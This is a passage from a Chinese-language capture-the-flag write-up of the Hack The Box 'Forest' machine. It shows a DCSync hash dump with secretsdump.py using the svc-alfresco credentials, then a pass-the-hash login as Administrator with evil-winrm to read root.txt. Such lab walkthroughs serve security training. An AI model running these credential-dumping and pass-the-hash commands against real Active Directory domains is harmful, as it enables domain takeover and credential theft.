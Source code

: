 既然 svc-alfresco 是域管理员，那么我可以使用 Impacket 的 secretsdump.py 来执行 DCSync 攻击，收集所有用户散列:

```
# secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -just-dc -outputfile secrets-dump.txt
```

我得到了哈希值:

![](img/10f7d64125cad493535bfff690ed527e.png)

现在我已经有了管理员散列，我使用 evil-winrm 与机器建立一个会话:

```
evil-winrm -u Administrator -i 10.10.10.161 -H '32693b11e6aa90eb43d32c72a07ceea6'
```

列出桌面中的文件，我现在可以读取 root.txt。

![](img/6f1ccaee4abf65bb84ef2f67fb3e9151.png)

这就是我如何从黑客盒子中解决森林问题的！这是一个可怕的旅程，但绝对值得！感谢阅读！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)